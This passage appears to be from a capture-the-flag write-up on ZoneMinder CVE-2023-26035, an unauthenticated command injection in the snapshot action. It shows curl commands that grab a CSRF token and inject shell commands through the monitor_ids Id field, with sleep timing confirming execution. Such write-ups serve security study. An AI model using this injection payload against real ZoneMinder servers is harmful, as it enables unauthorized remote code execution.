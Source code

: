 > Versions prior to 1.36.33 and 1.37.33 are vulnerable to Unauthenticated Remote Code Execution via Missing Authorization. There are no permissions check on the snapshot action, which expects an id to fetch an existing monitor but can be passed an object to create a new one instead. TriggerOn ends up calling shell\_exec using the supplied Id. This issue is fixed in This issue is fixed in versions 1.36.33 and 1.37.33.

Metasploit [added an exploit](https://www.rapid7.com/blog/post/2023/11/17/metasploit-weekly-wrap-up-36/) in November 2023.

#### Manual POC

To exploit this, I’ll need to get a CSRF token from the index page:

```
oxdf@hacky$ curl localhost:8888 -s | grep input | grep csrf_magic
                <form class="center-block" name="loginForm" id="loginForm" method="post" action="?view=login"><input type='hidden' name='__csrf_magic' value="key:827e7c381ce800986c8eaf05be675f1aaf2b048a,1713472410" />
oxdf@hacky$ curl localhost:8888 -s | grep input | grep csrf_magic | cut -d'"' -f12
key:f9baaa62f1487f7836cf6070f6d156fd5e75a45a,1713472444
oxdf@hacky$ CSRF=$(curl localhost:8888 -s | grep input | grep csrf_magic | cut -d'"' -f12)
oxdf@hacky$ echo $CSRF
key:df9180712415a1f92e5f81926168eb7d4c884cbd,1713472462

```

It does seem to change on each request.

[This Feb 2023 post](https://securityonline.info/cve-2023-26035-rce-flaw-in-open-source-software-application-zoneminder/) gives nice details on the vulnerability. It is in the snapshot view, where it takes the user input id and without sanitizing it, makes a command including the id that’s run via `shell_exec`.

From the [Metasploit exploit](https://github.com/rapid7/metasploit-framework/blob/master//modules/exploits/unix/webapp/zoneminder_snapshots.rb) I’ll get the URL and data format.

Testing with a sleep seems to show whatever command is run is run twice:

```
oxdf@hacky$ time curl http://localhost:8888/index.php -d "view=snapshot&action=create&monitor_ids[0][Id]=0;sleep 5&__csrf_magic=${CSRF}"

real    0m10.280s
user    0m0.005s
sys     0m0.000s
oxdf@hacky$ time curl http://localhost:8888/index.php -d "view=snapshot&action=create&monitor_ids[0][Id]=0;sleep 2&__csrf_magic=${CSRF}"

real    0m4.274s
user    0m0.005s
sys     0m0.000s
oxdf@hacky$ time curl http://localhost:8888/index.php -d "view=snapshot&action=create&monitor_ids[0][Id]=0;sleep 1&__csrf_magic=${CSRF}"

real    0m2.296s
user    0m0.006s
sys     0m0.000s

```
